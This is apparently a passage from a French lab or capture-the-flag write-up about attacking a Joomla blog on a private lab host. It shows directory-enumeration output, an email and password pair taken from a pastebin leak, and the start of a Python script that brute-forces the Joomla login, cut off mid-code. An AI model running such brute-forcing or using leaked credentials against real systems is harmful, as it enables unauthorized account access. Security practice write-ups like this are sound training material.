 ```plain
Found webpage http://10.1.1.23:10000/blog/media/com_menus/
Found webpage http://10.1.1.23:10000/blog/media/mailto/
Found webpage http://10.1.1.23:10000/blog/media/com_modules/
Found webpage http://10.1.1.23:10000/blog/media/cms/
Found webpage http://10.1.1.23:10000/blog/media/contacts/
Found webpage http://10.1.1.23:10000/blog/administrator/index.php
Found webpage http://10.1.1.23:10000/blog/administrator/templates/
Found webpage http://10.1.1.23:10000/blog/administrator/includes/
Found webpage http://10.1.1.23:10000/blog/administrator/language/
Found webpage http://10.1.1.23:10000/blog/administrator/modules/
Found webpage http://10.1.1.23:10000/blog/administrator/cache/
Found webpage http://10.1.1.23:10000/blog/administrator/logs/
Found webpage http://10.1.1.23:10000/blog/administrator/help/
Found webpage http://10.1.1.23:10000/blog/administrator/components/
```

La seule chose qui ressort c'est ce fichier */administrator/logs/error.php* mais l'attaquer avec *sqlmap* ou tenter de brute-forcer des noms de paramètres avec *Patator* n'ont mené là encore nul part.  

It's all about OSINT you fool!
------------------------------

Si on recherche l'adresse email remontée par Nmap via Google on trouve [ce leak](https://pastebin.pl/view/f1b64ad3) avec les creds suivants :  

```plain
hometowncebu@gmail.com:cabergas08
```

J'ai écrit mon propre script de brute-force pour Joomla :  

```python
import sys

import requests
from requests.exceptions import RequestException
from bs4 import BeautifulSoup

userfile = sys.argv[1]
passfile = sys.argv[2]

sess = requests.session()

with open(passfile, errors="ignore") as fdpass:
    for password in fdpass:
        password = password.strip()
        print("Testing password", password)

        with open(userfile, errors="ignore") as fduser:
            for username in fduser:
                username = username.strip()

                fields = {}
                response = sess.get("http://10.1.1.23:10000/blog/index.php/author-login")
                soup = BeautifulSoup(response.text, "lxml")
                form = soup.find("form", action="/blog/index.php/author-login?task=user.login")

                for field in form.find_all("input", attrs={"name": True}):
                    fields[field["name"]] = field.get("value", "")

                fields["username"] = username
                fields["password"] = password
                response = sess.post(
                    "http://10.1.1.23:10000/blog/index.php/author-login?task=user.login",
                    data=fields,
```